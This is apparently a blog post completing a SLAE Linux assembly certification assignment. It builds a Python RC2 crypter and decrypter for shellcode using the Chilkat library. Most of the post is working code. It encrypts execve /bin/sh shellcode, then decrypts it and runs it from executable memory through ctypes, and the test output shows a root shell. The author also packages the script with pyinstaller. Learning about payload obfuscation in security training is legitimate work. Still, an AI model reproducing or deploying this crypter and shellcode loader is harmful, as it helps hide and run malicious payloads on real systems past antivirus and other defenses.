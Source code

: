 Introduction
------------
RC2 is a symmetric-key block cipher which was popular in the first half of the 90s of the last century. RC2 also known as ARC2 was designed by Ron Rivest of RSA Security in 1987. Without going into too much details, RC2 consist of block size and key length amongst others things (more on that later). In this blog post, we’ll create RC2 shellcode crypter/decrpter to demonstrate the concept. Please note that I’m no RC2 expert and this blog post is by no means an overview of RC2 algorithm.

Crypter
-------
In order to create RC2 crypter there is couple of thing we need to figure out ahead of time. That is, key-length which can range from 8 to 1024 bits, cipher-mode which can be either ECB or CBC, and the secret key. We’ll use key length of `128-bits` and CBC as cipher mode which require an Initialization Vector. Here’s code referenced from [Chilkat](https://www.chilkatsoft.com/), will use the comments section to explain the process.

```python
import sys
import chilkat

# Define RC2 parameters
crypt = chilkat.CkCrypt2()
success = crypt.UnlockComponent("Anything for 30-day trial")
if (success != True):
    print(crypt.lastErrorText())
    sys.exit()

crypt.put_CryptAlgorithm("rc2")                                                  # set the encryption algorithm to "rc2"
crypt.put_CipherMode("cbc")                                                      # set cipher mode to "cbc"
crypt.put_KeyLength(128)                                                         # set key length 128-bit
crypt.put_Rc2EffectiveKeyLength(128)                                             #
crypt.put_PaddingScheme(0)                                                       # take care of padding
crypt.put_EncodingMode("hex")                                                    # set encoding mode to HEX
ivHex = "0001020304050607"                                                       # setup initialization vector for CBC mode.
crypt.SetEncodedIV(ivHex,"hex")                                                  # set encoding to HEX
keyHex = "000102030405060708090A0B0C0D0E0F101112131415161718191A1B1C1D1E1F"      # set secret key 128-bit
crypt.SetEncodedKey(keyHex,"hex")

# "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80", https://www.exploit-db.com/exploits/43735/
Encrypted_Shellcode = crypt.encryptStringENC("31c05089e2682f2f7368682f62696e89e350b00bcd80")  # encrypt shellcode in string NOT bytearray format
print "Encrypted Shellcode: " + Encrypted_Shellcode                                           # print encrypted shellcode
```

the above shellcode basically spawn shell for us and can be found [here](https://www.exploit-db.com/exploits/43735/). Let’s test it.

```sh
root@ubuntu:~# python RC2Crypter.py 
Encrypted Shellcode: F6F233BA271278F19E34812CC2B7ACD19385C2E7A6D477A4C72E71BF669540944E9E36B252321DB05BD96EE0223E5481
root@ubuntu:~#
```

Decrypter
---------
Hence RC2 is a symmetric-key algorithm meaning the same key is used for encryption and decryption, there is nothing much to it really other than reversing the process of encryption. All of the code used to execute the shellcode at run time can be found [here](http://hacktracking.blogspot.com/2015/05/execute-shellcode-in-python.html).

```python
from ctypes import CDLL, c_char_p, c_void_p, memmove, cast, CFUNCTYPE
import sys
import chilkat

# Define RC2 parameters
crypt = chilkat.CkCrypt2()
success = crypt.UnlockComponent("Anything for 30-day trial")
if (success != True):
    print(crypt.lastErrorText())
    sys.exit()

crypt.put_CryptAlgorithm("rc2")                                                  # set the encryption algorithm to "rc2"
crypt.put_CipherMode("cbc")                                                      # set cipher mode to "cbc"
crypt.put_KeyLength(128)                                                         # set key length 128-bit
crypt.put_Rc2EffectiveKeyLength(128)                                             #
crypt.put_PaddingScheme(0)                                                       # take care of padding
crypt.put_EncodingMode("hex")                                                    # set encoding mode to HEX
ivHex = "0001020304050607"                                                       # setup initialization vector for CBC mode.
crypt.SetEncodedIV(ivHex,"hex")                                                  # set encoding to HEX
keyHex = "000102030405060708090A0B0C0D0E0F101112131415161718191A1B1C1D1E1F"      # set secret key 128-bit
crypt.SetEncodedKey(keyHex,"hex")

# decrypt shellcode, paste encrypted shellcode here
Encrypted_Shellcode = "F6F233BA271278F19E34812CC2B7ACD19385C2E7A6D477A4C72E71BF669540944E9E36B252321DB05BD96EE0223E5481"
Decrypted_Shellcode = crypt.decryptStringENC(Encrypted_Shellcode)                # decrypt shellcode

# execute decrypted shellcode
libc = CDLL('libc.so.6')
shellcode = Decrypted_Shellcode.decode('hex')
sc = c_char_p(shellcode)
size = len(shellcode)
addr = c_void_p(libc.valloc(size))
memmove(addr, sc, size)
libc.mprotect(addr, size, 0x7)
run = cast(addr, CFUNCTYPE(c_void_p))
run()
```

Let's test.

```sh
root@ubuntu:~# python RC2Decrypter.py 
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Its demo time! we’ll use `pyinstaller` to compile the python script.

[![Crypter/Decrypter Demo](https://github.com/ihack4falafel/ihack4falafel.github.io/blob/master/assets/images/chmod.png)](https://player.vimeo.com/video/253265228?dnt=1&app_id=122963 "Click to Watch!")

Closing Thoughts
----------------
While researching crypters/decrypters, I found most of the blog posts out there were using C wrappers, so for the sake of not making a redundant one I decided to use python wrapper. This post marks the end of my SLAE journey in which I learned how little did I know and how much I still need to learn. Thank you Vivek Ramachandran and the people who helped make this course available! feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

Github Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%207](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%207)
